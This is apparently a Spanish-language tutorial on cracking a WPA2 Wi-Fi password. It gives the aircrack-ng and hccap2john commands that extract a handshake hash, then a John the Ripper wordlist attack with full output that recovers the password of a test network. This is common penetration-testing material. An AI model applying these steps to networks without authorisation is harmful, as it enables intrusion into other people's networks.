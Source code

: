 
## Extracción del hash en el handshake con aircrack

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ aircrack-ng -J miCaptura Captura-01.cap 
```

Se extrae con 2John realizando lo siguiente:

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ hccap2john miCaptura.hccap > Hash 
```

## Fuerza bruta con John The Ripper para obtener la contraseña de la red

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ hccap2john miCaptura.hccap > Hash 

┌─[root@kali]─[/Documents/WiFi/]
└──╼ cat Hash
Testing:$WPAPSK$Testing#q3pAzwlO46R.GPU5.2ZwrWaimKBsSwNoeETHCQT8uEoHrTb0aeVNuxsP8Hr49GktxYFC4O5VrM/2iB2efq4hjq0keans67z/hiQXPE21.5I0.Ec............/.2ZwrWaimKBsSwNoeETHCQT8uEoHrTb0aeVNuxsP8Ho.................................................................3X.I.E..1uk0.E..1uk2.E..1uk0....................................................................................................................................................................................../t.....U...9L8mwiU.bycDeSlrk0z82A:18874049b807:d85d4cffcc5a:d85d4cffcc5a::WPA2:miCaptura.hccap

┌─[root@kali]─[/Documents/WiFi/]
└──╼ john --wordlist=/usr/share/wordlists/rockyou.txt Hash

Warning: detected hash type "wpapsk", but the string is also recognized as "wpapsk-pmk"
Use the "--format=wpapsk-pmk" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (wpapsk, WPA/WPA2/PMF/PMKID PSK [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (key version [0:PMKID 1:WPA 2:WPA2 3:802.11w]) is 2 for all loaded hashes
Will run 3 OpenMP threads
Note: Minimum length forced to 2 by format
Press 'q' or Ctrl-C to abort, almost any other key for status
Hello123         (Testing)
1g 0:00:00:24 DONE (2021-10-03 21:18) 0.04095g/s 6671p/s 6671c/s 6671C/s Lindsay1..GGGGGG
Use the "--show" option to display all of the cracked passwords reliably
Session completed

┌─[root@kali]─[/Documents/WiFi/]
└──╼ john --show Hash           
Testing:Hello123:18874049b807:d85d4cffcc5a:d85d4cffcc5a::WPA2:miCaptura.hccap

1 password hash cracked, 0 left
```
